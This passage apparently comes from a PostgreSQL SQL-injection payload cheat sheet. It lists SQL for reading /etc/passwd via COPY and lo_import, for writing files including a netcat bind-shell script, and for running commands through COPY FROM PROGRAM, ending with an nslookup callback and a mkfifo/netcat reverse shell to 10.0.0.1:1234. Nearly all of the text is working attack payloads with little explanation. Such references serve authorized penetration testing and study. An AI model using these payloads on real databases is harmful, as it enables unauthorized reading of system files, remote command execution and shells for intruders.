 * Using `COPY`

    ```sql
    CREATE TABLE temp(t TEXT);
    COPY temp FROM '/etc/passwd';
    SELECT * FROM temp limit 1 offset 0;
    ```

* Using `lo_import`

    ```sql
    SELECT lo_import('/etc/passwd'); -- will create a large object from the file and return the OID
    SELECT lo_get(16420); -- use the OID returned from the above
    SELECT * from pg_largeobject; -- or just get all the large objects and their data
    ```

### PostgreSQL File Write

* Using `COPY`

    ```sql
    CREATE TABLE nc (t TEXT);
    INSERT INTO nc(t) VALUES('nc -lvvp 2346 -e /bin/bash');
    SELECT * FROM nc;
    COPY nc(t) TO '/tmp/nc.sh';
    ```

* Using `COPY` (one-line)

    ```sql
    COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';
    ```

* Using `lo_from_bytea`, `lo_put` and `lo_export`

    ```sql
    SELECT lo_from_bytea(43210, 'your file data goes in here'); -- create a large object with OID 43210 and some data
    SELECT lo_put(43210, 20, 'some other data'); -- append data to a large object at offset 20
    SELECT lo_export(43210, '/tmp/testexport'); -- export data to /tmp/testexport
    ```

## PostgreSQL Command Execution

### Using COPY TO/FROM PROGRAM

Installations running Postgres 9.3 and above have functionality which allows for the superuser and users with '`pg_execute_server_program`' to pipe to and from an external program using `COPY`.

```sql
COPY (SELECT '') to PROGRAM 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

```sql
CREATE TABLE shell(output text);
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f';
```
